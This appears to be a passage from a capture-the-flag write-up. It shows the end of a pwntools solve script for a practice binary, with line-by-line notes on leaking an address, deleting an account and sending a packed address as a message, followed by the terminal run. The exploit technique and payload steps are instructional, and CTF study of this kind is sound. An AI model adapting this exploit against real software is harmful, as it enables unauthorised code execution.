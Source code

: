 ```python
    p.sendline('y')
    time.sleep(1)
    p.sendline('l')
    time.sleep(1)
    p.sendline(payload)
    print(payload)
    p.interactive()
```
<br>


p.sendline('s') subscribes to the channel<br>
p.recvuntil("OOP! Memory leak...") will get the memory leak<br>
p64(memory_address) converts the memory address into ASCII or bytes<br>
p.sendline('m') is to make an account<br>
p.sendline('prince') to name the account 'prince'<br>
p.sendline('i') to delete the account<br>
p.sendline('y') to confirm the deletion<br>
p.sendline('l') to leave a message<br>
p.sendline(payload) to send the memory address that has been converted to ASCII/bytes<br><br>


    $ python solve.py  
    [*] '/home/john/practicectf/vuln'
        Arch:       i386-32-little
        RELRO:      Partial RELRO
        Stack:      Canary found
        NX:         NX enabled
        PIE:        No PIE (0x8048000)
        Stripped:   No
    [*] '/usr/lib32/libc.so.6'
        Arch:       i386-32-little
        RELRO:      Full RELRO
        Stack:      Canary found
        NX:         NX enabled
        PIE:        PIE enabled
    [+] Starting local process '/home/john/practicectf/vuln': pid 214630
    /home/john/practicectf/solve.py:7: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
      p.sendline('s')
    /home/john/practicectf/solve.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
      p.recvuntil("OOP! Memory leak...")
    0x80487d6
    /home/john/practicectf/solve.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
      p.sendline('m')
    /home/john/practicectf/solve.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
      p.sendline('prince')
    /home/john/practicectf/solve.py:19: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
      p.sendline('i')
    /home/john/practicectf/solve.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
      p.sendline('y')
    /home/john/practicectf/solve.py:23: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
      p.sendline('l')
    b'\xd6\x87\x04\x08\x00\x00\x00\x00'
    [*] Switching to interactive mode
    Thanks for subsribing! I really recommend becoming a premium member!
    Welcome to my stream! ^W^
    ==========================
    (S)ubscribe to my channel